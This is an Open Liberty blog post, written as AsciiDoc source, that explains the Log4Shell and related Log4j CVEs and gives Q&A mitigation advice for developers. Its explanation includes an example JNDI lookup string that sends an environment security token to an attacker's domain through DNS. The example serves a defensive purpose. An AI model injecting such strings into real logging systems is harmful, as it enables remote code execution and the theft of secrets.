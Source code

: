 ---
layout: post
title: "Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
seo-description: Open Liberty Guide on understanding and solving Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046 and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---
= Liberty Guide on Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046
Emily Jiang <https://github.com/Emily-Jiang>
:imagesdir: /
:url-prefix:
:url-about: /
//Blank line here is necessary before starting the body of the post.

In this blog, we are providing some essential guide for Open Liberty customers to understand Log4j CVE-2021-44228, CVE-2021-4104 and CVE-2021-45046 and the suggestions how to mitigate this threat.

== Introduction:
On December 10th 2021 the Apache Logging project released a 2.15 release for Log4j2, a popular Java logging framework, to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J V2 and how the Java Naming and Directory (JNDI) API works when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

*Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk.* 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice.

== Q&A:

* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to the latest version or `2.16` at a minimum. 

* Q2. If I am running with latest version of Java, am I protected? Do I still need to follow remediate steps? 

Log4Shell (`CVE-2021-44228`) is a vulnerability in the log4j2 open source project. Features in the most recent releases of Java mitigate some, but not all of the risk introduced by the Log4Shell vulnerability.


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` `2.10` or newer is being used setting the Java System property `log4j2.formatMsgNoLookups` to `true` will mitigate the `Log4Shell` vulnerability, but it will not protect against `CVE-2021-4104` or `CVE-2021-45046`. It should be noted that `Log4Shell` is CVSS 10 and the others require non-default configuration of log4j.


* Q4 How can I configure Liberty with `log4j2.formatMsgNoLookups`?

Create a `jvm.options` file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running `log4j1` which is not vulnerable, however you will be vulnerable to `CVE-2021-4104`.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x. It is a property related to log4j 2.x behavior. It also does not protect against `CVE-2021-45046`.

* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM. This setting is not sufficient to protect against `CVE-2021-45046`.

* Q8. We are still running our own applications on Java 7 that use log4j2,  but the fixed version of log4j2 requires Java 8

The Apache Logging project released `2.12.2` which supports Java 7, upgrade to this version or a newer 3rd diget release. 

* Q9. Is IBM Java affected by this vulnerability?

IBM Java does not include the affected library, so it is not directly affected by this vulnerability. However, applications running on top of IBM Java may include vulnerable copies of the affected library and need their own remediation.


If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/node/6525860[this blog] to learn about more on how to respond to these CVEs.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]